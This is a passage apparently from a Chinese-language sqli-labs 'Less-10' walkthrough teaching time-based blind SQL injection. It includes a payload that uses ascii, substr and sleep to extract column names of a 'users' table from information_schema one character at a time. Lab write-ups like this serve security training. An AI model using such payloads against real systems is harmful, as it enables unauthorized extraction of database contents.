 ![Less-10_7](./img/Less-10_7.PNG)

页面有延迟，说明联合字段名长度大于10，再逐渐改变参数确认联合字段名长度



+ 确定联合字段名字符

~~~ shell
?id=1" and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
~~~

![Less-10_8](./img/Less-10_8.PNG)
